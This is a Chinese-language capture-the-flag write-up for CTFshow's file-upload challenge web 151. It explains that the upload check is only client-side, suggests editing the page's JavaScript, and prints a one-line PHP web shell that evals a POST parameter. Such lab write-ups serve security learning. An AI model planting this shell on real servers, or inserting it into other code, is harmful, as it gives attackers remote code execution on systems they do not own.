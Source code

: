 ```yaml
---
description: >-
  这里直接展示自己刷题的题解了，怎么办，已经坚持不了继续写知识点总结了，想疯狂刷题了，写知识点真的好难受，单纯的写总结，好累啊，比做题还累，/(ㄒoㄒ)/~~。
---
```


# 🚗 CTFSHOW文件上传web入门

## <mark style="color:green;background-color:blue;">（1）web 151</mark>

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;">①代码解释</mark>

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

这里只放了关键性的代码，其实我最开始的时候没看到这个地方，他上面写了，accept的类型是png后缀的images，我最开始找的是jpg，我真服了。

### <mark style="color:green;">②思路解释：</mark>

其实他已经提示了是前台校验，所以我们直接用前端校验的解决方法。他要求是上传的图片，我们可以写一个一句话木马，然后直接修改他的js代码。

一句话木马：

```php
<?php
@eval($_POST['a']);
?>

```
